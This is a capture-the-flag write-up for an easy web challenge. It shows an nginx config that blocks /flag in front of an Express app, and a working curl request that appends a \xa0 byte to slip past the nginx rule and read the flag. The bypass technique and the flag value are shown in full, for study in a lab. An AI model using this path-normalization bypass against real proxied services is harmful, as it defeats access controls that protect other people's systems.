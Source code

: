 # Engine Ex

**Difficulty:** Easy
**Category:** Web
**Source Code:** Available
**Author:** 0utc4s7
**Description:** Are you familiar with the Trojan Horse story ?

## Source Code

- nginx configuration :

```
events {}

http {
    server {
        listen 80;
        server_name your_domain.com;

        location / {
            proxy_pass http://nodejs_app:3000;
            proxy_http_version 1.1;
            proxy_set_header Upgrade $http_upgrade;
            proxy_set_header Connection 'upgrade';
            proxy_set_header Host $host;
            proxy_cache_bypass $http_upgrade;
        }

        location = /flag {
            deny all;
        }

        location = /flag/ {
            deny all;
        }
    }
}
```

- app.js :

```javascript
const express = require('express');

const app = express();

app.get('/', (req, res) => {
    res.send(`
        <br><br><br><br><br><br>
        <h1 style='text-align:center;'>Welcome!</h1>
        <p style='text-align:center;'>The flag is hidden somewhere... Can you find it?</p>
    `);
});

app.get('/flag', (req, res) => {
    res.send(`
        <br><br><br><br><br><br>
        <h1 style='text-align:center;'>Here You Go :</h1>
        <br>
        <p style='text-align:center;'>nexus{F4k3_Fl4g}</p>
    `);
});

const PORT = process.env.PORT || 3000;
app.listen(PORT, () => {
    console.log(`Server is running on port ${PORT}`);
});
```

## Solution

we have two routes in the nodejs app, the first is `/` which give us a regular page with nothing on it, and the `/flag` rout which contains a pge that contains the content of the flag, but requesting that route will result in a `403 Forbidden` response :

```bash
└─$ curl 127.0.0.1/flag
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.22.0</center>
</body>
</html>
```

the reason is that our request is going first through nginx which acts as a proxy in this case, and we see in the nginx configuration that the `/flag` path is denied :

```plaintext
        location = /flag {
            deny all;
        }

        location = /flag/ {
            deny all;
        }
```

which means we can't request the flag, unless, we find a way to bypass it.

we know from the dockerfile that the version of nginx is `1.22.0`, this version, among others, is vulnerable to `Unsafe path restriction`, which means nginx will treat `/flag` and `/flag (any appended)` character as different paths.

combining that with the fact that Node.js ignores the character `\xa0` from the pathname, but Nginx considers them as part of the URL, we can abuse this to request the `/flag` route.

the exploit goes like this :

- First we make a request to this endpoint `/flag\xa0`.

- Then Nginx receives the HTTP request and performs path normalization on the pathname.

- As Nginx includes the character `\xa0` as part of the pathname, the ACL rule for the `/flag` URI will not be triggered. Consequently, Nginx will forward the HTTP message to the backend.

- When the URI `/flag\x0a` is received by the Node.js server, the character `\xa0` will be removed, allowing successful retrieval of the `/flag` endpoint.

let's try it out :

```bash
└─$ curl $'http://127.0.0.1/flag\xa0' -s | html2markdown

# Here You Go :

nexus{Pr0x1y1ng_C4n_B3_D4ng3r0uS$ssss}
```

and the request was made successfully and we got the flag!

# Flag

`nexus{Pr0x1y1ng_C4n_B3_D4ng3r0uS$ssss}`
